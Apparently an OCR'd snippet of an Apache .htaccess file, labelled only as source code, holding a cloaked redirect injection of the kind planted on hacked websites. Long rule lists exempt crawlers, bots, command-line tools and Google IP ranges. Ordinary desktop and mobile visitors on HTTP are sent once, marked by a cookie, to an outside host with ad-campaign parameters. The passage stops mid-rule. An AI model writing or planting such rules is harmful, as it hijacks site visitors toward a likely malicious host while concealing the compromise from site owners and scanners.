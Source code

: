 ```
RewriteCond %{HTTP_REFERER}     !^.*(imgres).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(bing|Accoona|Ace\sExplorer|Amfibi|Amiga\sOS|apache|appie|AppleSyndication).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Archive|Argus|Ask\sJeeves|asterias|Atrenko\sNews|BeOS|BigBlogZoo).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Biz360|Blaiz|Bloglines|BlogPulse|BlogSearch|BlogsLive|BlogsSay|blogWatcher).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Bookmark|bot|CE\-Preload|CFNetwork|cococ|Combine|Crawl|curl|Danger\shiptop).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Diagnostics|DTAAgent|EmeraldShield|endo|Evaal|Everest\-Vulcan).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(exactseek|Feed|Fetch|findlinks|FreeBSD|Friendster|Fuck\sYou|Google).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Gregarius|HatenaScreenshot|heritrix|HolyCowDude|Honda\-Search|HP\-UX).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(HTML2JPG|HttpClient|httpunit|ichiro|iGetter|IRIX|Jakarta|JetBrains).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Krugle|Labrador|larbin|LeechGet|libwww|Liferea|LinkChecker).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(LinknSurf|Linux|LiveJournal|Lonopono|Lotus\-Notes|Lycos|Lynx|Mac\_PowerPC).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Mac\_PPC|Mac\s10|macDN|Mediapartners|Megite|MetaProducts).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Miva|Mobile|NetBSD|NetNewsWire|NetResearchServer|NewsAlloy|NewsFire).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(NewsGatorOnline|NewsMacPro|Nokia|NuSearch|Nutch|ObjectSearch|Octora).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(OmniExplorer|Omnipelagos|Onet|OpenBSD|OpenIntelligenceData|oreilly).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(os\=Mac|P900i|panscient|perl|PlayStation|POE\-Component|PrivacyFinder).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(psycheclone|Python|retriever|Rojo|RSS|SBIder|Scooter|Seeker|Series\s60).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(SharpReader|SiteBar|Slurp|Snoopy|Soap\sClient|Socialmarks|Sphere\sScout).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(spider|sproose|Rambler|Straw|subscriber|SunOS|Surfer|Syndic8).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Syntryx|TargetYourNews|Technorati|Thunderbird|Twiceler|urllib|Validator).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Vienna|voyager|W3C|Wavefire|webcollage|Webmaster|WebPatrol|wget|Win\s9x).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Win16|Win95|Win98|Windows\s95|Windows\s98|Windows\sCE|Windows\sNT\s4).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(WinHTTP|WinNT4|WordPress|WWWeasel|wwwster|yacy|Yahoo).*$   [NC]
RewriteCond %{HTTP_USER_AGENT}  !^.*(Yandex|Yeti|YouReadMe|Zhuaxia|ZyBorg).*$   [NC]
RewriteCond %{REQUEST_FILENAME} !.*jpg$|.*gif$|.*png|.*jpeg|.*mpg|.*avi|.*zip|.*gz|.*tar|.*ico$ [NC]
RewriteCond %{REMOTE_ADDR}      !^66\.249.*$ [NC]
RewriteCond %{REMOTE_ADDR}      !^74\.125.*$ [NC]
RewriteCond %{HTTP_COOKIE}      !^.*Jpg.*$ [NC]
RewriteCond %{HTTP_USER_AGENT}  .*(Windows|Macintosh|iPad|iPhone|iPod|Android).* [NC]
RewriteCond %{HTTPS}        ^off$
RewriteRule .* - [E=Jpg:%{TIME_SEC}]
RewriteRule .* - [E=HjT:siknsty.autoeventregistration.com]

RewriteCond %{ENV:Jpg} 0
RewriteRule ^.* http://%{ENV:HjT}/lg.php?bannerid=2168&campaignid=1049&zoneid=54&loc=1&referer=http\%3A\%2F\%2F%{HTTP_HOST}\%2F&cb=3dc202f6d9  [R=302,NE,L,CO=Jpg:%{ENV:Jpg}:%{HTTP_HOST}:9516:/:0:HttpOnly]
RewriteCond %{ENV:Jpg} 1
```